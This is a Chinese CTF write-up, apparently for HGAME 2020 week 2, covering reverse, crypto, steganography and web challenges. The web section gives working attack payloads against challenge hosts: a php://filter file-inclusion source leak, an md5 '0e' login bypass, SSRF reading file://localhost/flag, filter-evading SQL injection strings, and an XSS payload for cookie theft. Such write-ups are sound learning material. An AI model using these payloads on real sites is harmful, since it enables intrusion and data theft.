





凉了啊凉了啊
Reverse
babyPy
下载文件是个字节码，手动翻译一下，大概是这个样子
参考网址1
2
3
4
5
6
7
8tmp1=flag[::-1]
tmp2=list(tmp1)
for i in range(1,len(tmp2)):
tmp3=tmp2[i-1]^tmp2[i]
tmp2[i]=tmp3
res=bytes(tmp2).hex
print(res)
根据异或公式，可得m[i]= cipher[i] ^ cipher[i-1]
于是有如下1
2
3
4
5
6
7
8
9cipher=bytes().fromhex('7d037d045717722d62114e6a5b044f2c184c3f44214c2d4a22')
_cipher=list(cipher)
m=b'} '
_m=list(m)
for i in range(1,len(_cipher)):
tmp=_cipher[i]^_cipher[i-1]
_m[i]=tmp
flag=bytes(_m[::-1])
print(flag)
Crypto
Verfication_code
由源码得sha256(xxxx+已知字符串)=已知密文，爆破求xxxx，输入后再输入I like playing Hgame1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import socketserver
import os, sys, signal
import string, random
from hashlib import sha256
import itertools
myStr='L0ZzlogdBWx1hlXC'
dstDigest='236abe814ce3691e1d5959bd36b79ca31e3d31b6daf941fa60d2fb7f9a01b61d'
for i in itertools.permutations(string.ascii_letters+string.digits,4):
proof=''.join(i)+myStr
digest=sha256(proof.encode()).hexdigest()
if(digest==dstDigest):
print(i)
Misc
Cosmos的午餐
(感谢出题人的耐心解答)
一开始以为在流量包里找png或者jpeg之类的，但是相关的提取出来感觉不太对劲…（根据题目图片应该是二次元妹子…)
先把log导入解密，在http中找，发现一个比较不一样的包

点进去看看发现含有zip文件格式，导出来看下里边有张图片，提示用outguess，并且备注里给了key，然后解密下就好，解完了是个网址，下载下来一个压缩包，里边的图片二维码扫一下就行
所见即为假
发现7z可以直接解压，注释中的F5 key提示了F5隐写，于是利用F5-steganography1
java Extract ./11.jpg -e res -p NllD7CQon6dBsFLr
得到hex文本，复制进winhex可得flag
地球上最后的夜晚
解压得no password.pdf，想到pdf隐写，用wbStego4.3open解码得到一个txt文件，里边写着zip的解压密码，解压得一个doc文件，试试转成xml，用7z对doc解压后进入word文件夹，发现secret.xml，打开就是flag
玩玩条码
下载得一个zip，里边注释:Decode JPNPostCode to get MSUStegoVideo password
俩文件对应注释里边内容，先看postcode，这是个日本的邮政编码，我是在生成条码网站上手动对比，一个个试的，不过也不复杂，有规律
日本邮政条形码生成器

第二个，根据提示下了virtualdub2，再安MSU StegoVideo 插件，这个只能运行32位的，打开后根据网上教程，输入上一步骤所得的码进行解码，使用 MSU StegoVideo
打开txt文件可得zip密码，7z解压后得条形码，在线扫一下就好
Free Online Barcode Reader
赛后复现
web
Cosmos的博客后台
看到http://cosmos-admin.hgame.day-day.work/?action=login.php
这样的字样，想到可能是php伪协议
文件包含漏洞与php伪协议
于是输入http://cosmos-admin.hgame.day-day.work/?action=php://filter/read=convert.base64-encode/resource=login.php
解码后得到源码1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
include "config.php";
session_start();
//Only for debug
if (DEBUG_MODE){
if(isset($_GET['debug'])) {
$debug = $_GET['debug'];
if (!preg_match("/^[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*$/", $debug)) {
die("args error!");
}
eval("var_dump($$debug);");
}
}
if(isset($_SESSION['username'])) {
header("Location: admin.php");
exit();
}
else {
if (isset($_POST['username']) && isset($_POST['password'])) {
if ($admin_password == md5($_POST['password']) && $_POST['username'] === $admin_username){
$_SESSION['username'] = $_POST['username'];
header("Location: admin.php");
exit();
}
else {
echo "用户名或密码错误";
}
}
}
可以注意到1
eval("var_dump($$debug);");
eval()与$$debug都是需要注意的点 对于$$debug来说,在这里我们的$$debug就是可变变量,在这里$$debug就表示$($debug的值),同时$GLOBALS — 引用全局作用域中可用的全部变量,想着$GLOBALS能打印出我们所需要的username与password,于是传入1
http://cosmos-admin.hgame.day-day.work/?action=login.php&debug=GLOBALS
出现

从1
admin_password == md5($_POST['password'])
可以知道这是一个弱比较，所以我们只要传入md5开头是0e的字符串,0e在比较的时候会将其视作为科学计数法，所以无论0e后面是什么，0的多少次方还是0
成功登入之后再看下admin.php的源码1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
include "config.php";
session_start();
if(!isset($_SESSION['username'])) {
header('Location: index.php');
exit();
}
function insert_img() {
if (isset($_POST['img_url'])) {
$img_url = @$_POST['img_url'];
$url_array = parse_url($img_url);
if (@$url_array['host'] !== "localhost" && $url_array['host'] !== "timgsa.baidu.com") {
return false;
}
$c = curl_init();
curl_setopt($c, CURLOPT_URL, $img_url);
curl_setopt($c, CURLOPT_RETURNTRANSFER, 1);
$res = curl_exec($c);
curl_close($c);
$avatar = base64_encode($res);
if(filter_var($img_url, FILTER_VALIDATE_URL)) {
return $avatar;
}
}
else {
return base64_encode(file_get_contents("static/logo.png"));
}
}
意思是要传入一个url且必须从localhost或者timgsa.baidu.com开始
curl有http和file两种协议，当1
2
3
4
5
6
7时,会直接读取/etc/password的内容，题目说明了flag在根目录下，所以在图片url处插入
```file://localhost/flag```，然后用burpsuite借包查看返回的base64值
### Cosmos的留言板-1
先测试一下，发现过滤了select和空格
[sql注入_过滤空格和注释符](https://www.cnblogs.com/peterpan0707007/p/7501507.html)
select可以通过大小写绕过，空格可以用/\*\*/代替,爆表```'/**/union/**/select/**/concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/having'1'='1
得到:f1aggggggggggggg
爆段名1
2
3得到:fl4444444g
爆值
```'/**/union/**/seLect/**/fl4444444g/**/from/**/f1aggggggggggggg/**/having/**/'1'='1
Cosmos的新语言
1 |
|
qwq居然访问/mycode就可以得到源码1
2
3
4
5
6
7
8
9
10
11
12
13function encrypt($str){
$result = '';
for($i = 0; $i < strlen($str); $i++){
$result .= chr(ord($str[$i]) + 1);
}
return $result;
}
echo(encrypt(strrev(str_rot13(encrypt(base64_encode(strrev(strrev(str_rot13(base64_encode(base64_encode($_SERVER['token'])))))))))));
if(@$_POST['token'] === $_SERVER['token']){
echo($_SERVER['flag']);
}
意思就是发送的token要和解密后的server的token一致,但是发现每刷新一次，加密的方法与顺序都会变，所以要写脚本来实现解密，思路是得到源码中对token加密的这一行，再通过字符串比较判断所使用的函数
python3网络爬虫开发实战
(什么都不会的感觉太惨了= =)
顺手贴一个小语的wp来学习qwq
Hgame-week2-writeup
写脚本(照抄小语的)- -大概就是给自己加深下印象的…
不知道为啥= =试了好几次都不行，出现各种错误，后来突然又行了…1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58#py3
from lxml import etree
from requests import Session
import re
import base64
se=Session()
#get the encode
url='http://c339168464.php.hgame.n3ko.co/'
r = se.get(url)
html = etree.HTML(r.text)
enc_code=html.xpath('//html/body/text()')[0]
#get the method
_url='http://c339168464.php.hgame.n3ko.co/mycode'
_r=se.get(_url)
_html = etree.HTML(_r.text)
p = r'echo\((.*)\(\$_SERVER'#转义字符r,通过正则选取范围
method=re.search(p,_r.text).group(1).split('(')
def rot13(s):
result = ""
for v in s:
c = ord(v)
if c >= ord('a') and c <= ord('z'):
if c > ord('m'):
c -= 13
else:
c += 13
elif c >= ord('A') and c <= ord('Z'):
if c > ord('M'):
c -= 13
else:
c += 13
result += chr(c)
return result
def decrypt(s):
res=''
for ch in s:
res+=chr(ord(ch)-1)
return res
for m in method:
if m == 'base64_encode':
enc_code=base64.b64decode(enc_code)
elif m =='encrypt':
enc_code=decrypt(enc_code)
elif m =='str_rot13':
enc_code=rot13(enc_code)
elif m == 'strrev':
enc_code=enc_code[::-1]
#get the response
r_=se.post('http://c339168464.php.hgame.n3ko.co/',data={'token': enc_code})
flag=r_.text
print(flag)
Cosmos的聊天室
点击Flag is here的button后，出现提示

那么应该是通过xss获取管理员cookie
ctf_web_cookie窃取
当我们输入标签<\img>时，查看源代码发现标签被过滤，通过1
2
3
4[Xss小游戏通关秘籍](https://zhuanlan.zhihu.com/p/75619278)
[xss练习记录](https://www.kingkk.com/2018/08/xss%E7%BB%83%E4%B9%A0%E8%AE%B0%E5%BD%95/)
于是我们发送
```<img src=x onerror="alert(1)"<!--
源代码中显示
发现这个alert变大写了，采用html实体编码绕过(对alert进行unicode编码)1
2
3
4发现可以成功执行。
对于md5(code)[:6] == 11036f来说，要求md5值的前六位要做到相等。
[Hgame-2020——WEB](http://www.pdsdt.lovepdsdt.com/index.php/2020/02/04/hgame-2020-web/#Cosmos-3)
依靠爆破对验证码有
#py3
import hashlib
for i in range(1, 100000001):
#s = hashlib.md5(str(i)).hexdigest()[0:8]
#s = hashlib.md5(str(i)).hexdigest()[:6]
s = hashlib.md5(str(i).encode("utf-8")).hexdigest()[0:6]
if s == "db97b8":
print(i)
break
`
hgame2020week2_offical
之后就直接看官方wp了- -